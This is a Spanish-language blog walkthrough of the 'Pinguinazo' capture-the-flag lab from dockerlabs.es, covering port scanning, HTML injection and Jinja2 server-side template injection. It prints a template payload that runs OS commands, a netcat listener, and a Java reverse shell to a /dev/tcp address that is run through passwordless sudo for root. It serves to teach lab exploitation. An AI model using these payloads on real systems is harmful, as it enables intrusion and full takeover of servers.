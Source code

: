 ```yaml
---
title: "dockerlabs.es: máquina Pinguinazo"
published: true
date: 2024-05-21 21:10:00
tags: [Kali Linux, Netcat, Privilege Escalation, Pentesting, Cybersecurity, CVE, Exploits, Linux, Reverse Shell, Post Exploitation]
image: /blog/assets/dockerlabs.es_pinguinazo/portada.png
---
```


<br>
![](/blog/assets/dockerlabs.es_pinguinazo/portada.png)
<br>

### Descripción
* * *
<br>
En esta guía, se documenta el proceso de explotación de vulnerabilidades en un entorno simulado utilizando Kali Linux. El writeup cubre los pasos desde la identificación de una vulnerabilidad inicial hasta la obtención de acceso root en el sistema de destino.


### Enlace de Lab:
[dockerlabs.es: Pinguinazo](https://www.dockerlabs.es/).

### Dificultad:
Fácil.

### Solución
* * *
<br>

Para iniciar el proceso de `vulnerar` esta máquina, lo primero que haremos es con ayuda de `nmap` ver a qué nos estamos enfrentando.



``` shell
nmap -p- -Pn  -sS --min-rate 5000 --open 172.17.0.2 -oX report.xml -v
```
donde:



`-p-`: Escanea todos los puertos existentes (0-65365)


`-Pn`: Evita que `nmap` realice un descubrimiento de host antes de realizar el escaneo


`-sS`: Realiza un escaneo de puertos TCP mediante un escaneo SYN. Esto implica enviar un paquete SYN y esperar una respuesta; si el puerto está abierto, el host responderá con un paquete SYN-ACK

`--min-rate`: Configura la tasa mínima de paquetes enviados a 5000 paquetes por segundo. Esto acelera el escaneo, ya que `nmap` enviará paquetes a una tasa muy alta

`--open`: Esta opción le indica a `nmap` que sólo muestre los puertos que están abiertos.

`-oX`: Guarda la salida del escaneo en un archivo XML llamado `report.xml`








`-v`: Aumenta la verbosidad de la salida de `nmap`, proporcionando más detalles sobre lo que está haciendo `nmap`.








<br>
![](/blog/assets/dockerlabs.es_pinguinazo/paso_1.JPG)
<br>








Obtenemos 1 puerto abierto, `5000 -> upnp?`  .








Ahora es momento de ver con qué versiones nos estamos enfrentando de cada servicio. Para ello implementamos el código:








```shell
nmap -sCV -p5000 172.17.0.2-oN ports_version
```








Donde:








**`-sC`**: Esta opción le dice a `nmap` que ejecute scripts predeterminados contra los puertos encontrados.


**`-sV`**: Le indica a `nmap` que intente determinar la versión de los servicios que se están ejecutando en los puertos abiertos.








>*sCV es la combinación de ambos comandos*.




<br>
![](/blog/assets/dockerlabs.es_pinguinazo/paso_2.JPG)
<br>




Nos fijamos que tiene un puerto abierto.








`puerto 5000`: servicio upnp?




Lo primero que haremos es ver los vectores de entrada que tiene el `puerto 5000`, vemos que es una template hecha con `Jinja`










<br>
![](/blog/assets/dockerlabs.es_pinguinazo/paso_form.png)
<br>




Vemos que es una web con un formulario básico que pide cierta información. Veremos si es vulnerable a `html injection`


escribimos en `PinguNombre` el siguiente comando:




```html
<h1>Canary</h1>
```
Y vemos que es vulnerable


<br>
![](/blog/assets/dockerlabs.es_pinguinazo/paso_4.JPG)
<br>




Intentamos hacer un `SSTI (Server Side Template Injection)`


```text
{ { 7*7 } } (sin los espacios)
```


<br>
![](/blog/assets/dockerlabs.es_pinguinazo/paso_5.JPG)
<br>


Y vemos que es vulnerable a este ataque.


Ahora es momento de correr comandos de linux, navegando en internet podemos encontrar varias web que nos ofrecen payloads y comandos ya listos.


En esta página web [^1] encontramos varios `payloads`.




Ejecutar uno para determinar qué usuario somos


```python
{ { request.application.__globals__.__builtins__.__import__('os').popen('id').read() } }
```


<br>
![](/blog/assets/dockerlabs.es_pinguinazo/paso_6.JPG)
<br>


Ejecutando el comando `id` vemos que pertenecemos al grupo `pinguinazo`


Ya que podemos correr comandos a nivel de sistema, es momento de hacer una `reverse shell` para tener acceso al servidor




Abrimos un puerto en `nc` en modo de escucha con el siguiente comando:


```bash
nc -lvnp 443
```


<br>
![](/blog/assets/dockerlabs.es_pinguinazo/paso_7.JPG)
<br>


Presionamos el botón `save all` y volvemos a nuestra `nc` en modo escucha, obtendremos lo siguiente:


<br>
![](/blog/assets/dockerlabs.es_pinguinazo/paso_8.JPG)
<br>


Vemos que somos el usuario `Pinguinazo`, es momento de tratar la bash, más que nada para poder hacer `ctrl+c` sin matar la `reverse shell` y `ctrl+l` para poder limpiar la pantalla:




```bash
script /dev/null -c bash
```

`ctrl+z`


```bash
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```


Si hacemos nano, vi o cat, la pantalla nos aparecerá pequeña y no podremos crear archivos con total libertad. Para ello, corremos lo siguiente:


Abrimos una terminal nueva y corremos:




```bash
stty size
```




<br>
![](/blog/assets/dockerlab.es_upload/bash.png)
<br>
Nos aparecerán dos números, el primero corresponde a las `rows` y el segundo a `columns`.




Abrimos la `reverse shell` y corremos el siguiente código:




```bash
stty rows 24 columns 128
```


Una vez ya tratamos la `tty` es momento de buscar una vía para `escalar privilegios`. Para eso, ejecutamos el comando


```bash
sudo -l
```


<br>
![](/blog/assets/dockerlabs.es_pinguinazo/paso_9.JPG)
<br>




Vemos que podemos ejecutar como usuario `root` sin necesidad de password el binario de `java`


No hay ninguna forma de escalar con permisos, como el caso de `python`, `ruby` o `php`.


Así que haremos una reverse shell y abrimos otra terminal con `nc` en nuestra máquina local.




Si vamos al a web de `revshell`[^2] y en la sección de `java` copiamos la siguiente:


```java
public class shell {
   public static void main(String[] args) {
       Process p;
       try {
           p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/172.17.0.1/443 0>&1");
           p.waitFor();
           p.destroy();
       } catch (Exception e) {}
   }
}
```


Con nuestra nueva `nc` en modo escucha




<br>
![](/blog/assets/dockerlabs.es_pinguinazo/paso_7.JPG)
<br>


Corremos el script de la siguiente forma:




```bash
sudo /usr/bin/java reverse_shell.java
```
<br>
![](/blog/assets/dockerlabs.es_pinguinazo/paso_10.JPG)
<br>


Y vemos que recibimos la conexión como usuario `root` en nuestra máquina.
### _Referencias_
* * *
[^1]: [Jinja2: Template injection](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)


[^2]: [Reverse Shell Generator](https://www.revshells.com/)







